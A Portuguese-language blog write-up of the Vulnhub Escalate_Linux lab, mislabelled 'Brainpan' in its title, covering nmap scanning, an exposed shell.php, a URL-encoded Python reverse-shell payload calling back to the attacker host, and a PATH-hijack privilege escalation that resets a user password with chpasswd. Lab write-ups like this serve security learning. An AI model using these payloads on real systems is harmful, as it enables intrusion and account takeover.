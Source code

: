 ```yaml
---
title: Vulnhub - Brainpan
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/escalate_linux/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/escalate_linux-1,323/>
---

## Olá

Aproveite.

## Scanning web and services

### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap -sn 10.0.2.1-255
```

> O parâmetro `-sn` tem como finalidade realizar um ping scan.
> 

![scan nmap 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.9 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sV -p $ports 10.0.2.9
```

![scan nmap ports 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmapports.png)

## Enumeração

### Port 80 - Apache httpd 2.4.29

Para enumeração da porta em questão, primeiramente foi inserido no navegador e o que estava rodando era uma página padrão do apache. Logo, foi iniciado a utilização da ferramenta *dirbuster* para enumeração de diretórios conforme as figuras abaixo.

![port 80 - apache](/assets/img/Vulnhub/escalate_linux/port80apache.png)

![dirbuster](/assets/img/Vulnhub/escalate_linux/dirbuster.png)

Foi descoberto a partir da ferramenta supracitada a existência de um arquivo denominado `shell.php`. Ao acessar o diretório havia a mensagem “pass cmd as get parameter” logo, foi realizado uma tentativa de utilizar o comando solicitado na url com o comando `pwd` e foi obtido o resultado abaixo.

![Shell.php](/assets/img/Vulnhub/escalate_linux/shellphp.png)

O comando `pwd` funcionou! Logo, temos um grande problema aqui.

> Foram feitas tentativas de upload de arquivos, porém os arquivos não foram encontrados (mas não passei muito tempo procurando).
> 

Após, foi realizado uma tentativa de obter uma *shell* através de um script *python* encodado e a partir disso foi possível entrar na maquina com sucesso.

```
http://10.0.2.9/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.6%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

### Shell Obtido

Utilizando o código em *python* para obter uma shell reversa e a ferramenta *nc* como listener, conseguimos a *shell*.

![Shell Obtido](/assets/img/Vulnhub/escalate_linux/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a *shell* na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios.

Também, foi realizado o download do arquivo *[LinEnum.sh](http://LinEnum.sh),* através de um server simples em python na minha máquina, para realizar uma enumeração automatizada de alguns pontos interessantes da máquina alvo.

![linenum.sh](/assets/img/Vulnhub/escalate_linux/linenumsh.png)

![linenum result](/assets/img/Vulnhub/escalate_linux/linenumsh-result1.png)

![linenum result-2](/assets/img/Vulnhub/escalate_linux/linenumsh-result2.png)

A ferramenta trouxe diversos pontos interessantes, destaquei dois nas imagens acima.

> É importante ressaltar que essa máquina possui diversos modos para escalação de privilégios. Aqui, será feito apenas um.
> 

Para nossa escalação de privilégios, primeiramente foi verificado a existência do arquivo do diretório `/home/user5/script` e ao utiliza-lo, o mesmo apresenta a mesma função do comando `ls`. Com isso em mente, foi feito um roubo de path, para que o script em questão executasse o `ls` que criamos.

- `echo ‘echo “user1:user1” | chpasswd’ > ls`
- `chmod 777 ls`
- `export PATH= tmp:$PATH`

![ls tmp](/assets/img/Vulnhub/escalate_linux/lstmp.png)

Conforme imagem acima, ao executar o script, o mesmo irá executar o comando `ls` que acabamos de criar. Com isso, a senha do usuário `user1` foi alterada e podemos trocar de usuário.

No usuário `user1` foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário `user1` possuía permissão de executar tudo.

- `sudo su`

![Acesso root](/assets/img/Vulnhub/escalate_linux/rootobtido.png)

### Root obtido Escalate_Linux!